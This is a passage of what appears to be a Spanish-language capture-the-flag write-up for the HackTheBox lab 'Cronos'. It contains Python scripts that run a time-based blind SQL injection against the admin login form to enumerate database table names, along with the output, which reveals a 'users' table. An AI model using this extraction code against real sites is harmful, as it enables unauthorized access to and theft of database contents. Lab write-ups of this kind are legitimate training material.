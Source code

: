 ```python
    p1.status("Generando el payload")
    result = ""
    for j in range(0,3):
        p2 = log.progress("Table[%d]" % j)
		cont1 = 0        
		for i in range(1,10):
            if cont1 != 1:
                break
            cont = 0
            for c in s:
                sqli = "' or if(substr((select table_name from information_schema.tables where table_schema='admin' limit %d,1),%d,1)='%c',sleep(3),1)-- -" % (j, i, c)
                p1.status("Probando con: %c" % c)
                cont += 1
                if makeRequest(sqli):
                    result += c
                    p2.status("%s" % result)
                    time.sleep(2)
                    break
                if cont == 36:
                    cont1 = 1
        p2.success("%s" % result)
        result = ""
    p1.success("Fin del payload")

if __name__ == '__main__':
    payload()
```

```bash
❯ python3 database_tables.py
[+] Payload: Fin del payload
[+] Table[0]: users 
[+] Table[1]:  
[+] Table[2]: 
```

Tenemos el nombre de la única tabla que es **users**. Ahora necesitamos conocer los nombres de las columnas que conforman dicha tabla.

```python
#!/usr/bin/python3
#codgin: utf-8

import time, requests, signal, sys
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdefghijklmnopqrstuvwxyz'

def makeRequest(sqli):
    data_post = {
        'username' : '%s' % sqli,
        'password' : 'loquesea'
    }
    time_start = time.time()
    r = requests.post(url, data=data_post)
    time_end = time.time()
```